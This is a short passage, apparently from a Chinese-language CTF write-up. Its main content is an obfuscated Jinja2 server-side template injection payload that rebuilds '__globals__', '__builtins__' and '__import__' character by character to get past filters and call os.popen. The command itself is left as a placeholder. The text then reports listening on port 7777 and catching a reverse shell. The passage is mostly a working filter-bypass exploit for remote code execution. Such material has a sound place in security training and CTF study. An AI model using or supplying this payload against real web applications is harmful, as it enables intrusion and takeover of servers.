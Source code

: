 ```python
{%if(((((cycler.next|attr(('%c'%95)*2~'globals'~('%c'%95)*2)|attr(('%c'%95)*2~'getitem'~('%c'%95)*2))(('%c'%95)*2~'builtins'~('%c'%95)*2)|attr(('%c'%95)*2~'getitem'~('%c'%95)*2))(('%c'%95)*2~'i''mport'~('%c'%95)*2))('os')|attr('p''open'))(('%c'*228)%(敏感内容！上面的指令转成ASCII码，用逗号隔开)).read())%}{%endif%}


```

监听 7777 端口，发送 payload，成功弹到。

![](../../../../images/08ae9a6a37ff65ee23b2c5c2cb431012.png)



# TOXEC